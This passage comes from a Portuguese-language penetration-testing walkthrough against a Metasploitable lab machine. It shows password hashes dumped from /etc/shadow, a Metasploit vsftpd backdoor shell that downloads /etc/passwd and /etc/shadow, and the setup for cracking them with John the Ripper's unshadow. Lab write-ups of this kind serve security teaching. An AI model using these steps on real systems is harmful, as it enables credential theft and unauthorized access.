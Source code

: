```bash
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
```

Em posse dessas informações, uma ideia seria utilizar o John the Ripper, uma ferramenta de cracking de senhas que pode processar e quebrar hashes de senhas. Ela tem a capacidade de unificar arquivos de senha e hash, como o /etc/passwd e /etc/shadow, e realizar ataques para descobrir as senhas originais.

Para unificar esses arquivos e preparar o ambiente para quebrar as senhas, vamos baixar os arquivos e salvá-los em meu diretório local `/tmp` no Kali.

```bash
download /etc/passwd /tmp/passwd
[*] Download /etc/passwd => /tmp/passwd
[+] Done
```

```bash
download /etc/shadow /tmp/shadow
[*] Download /etc/shadow => /tmp/shadow
[+] Done
```

Vamos voltar para o terminal padrão do Kali.

```bash
exit
[*] 192.168.1.30 - Command shell session 2 closed.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exit

┌──(gbrods㉿Gabriel)-[~]
└─$
```

Com os arquivos baixados, usamos o comando `unshadow` do John the Ripper para combinar os arquivos /etc/passwd e /etc/shadow em um único arquivo de hashes `unshadowed.txt`.
